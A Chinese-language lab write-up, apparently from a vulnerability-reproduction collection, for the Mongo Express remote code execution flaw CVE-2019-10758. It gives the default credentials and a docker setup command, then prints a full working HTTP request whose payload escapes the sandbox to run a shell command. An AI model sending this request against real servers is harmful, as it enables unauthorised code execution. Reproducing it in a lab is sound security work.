 # Mongo Express 远程代码执行漏洞（CVE-2019-10758）

mongo-express是一款mongodb的第三方Web界面，使用node和express开发。如果攻击者可以成功登录，或者目标服务器没有修改默认的账号密码（`admin:pass`），则可以执行任意node.js代码。

## 漏洞环境

执行如下命令启动一个0.53.0版本的mongo-express：

```bash
docker compose up -d
```

环境启动后，访问`http://your-ip:8081`即可查看到Web页面。

## 漏洞复现

直接发送如下数据包，即可执行代码`this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`：

```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

![](1.png)
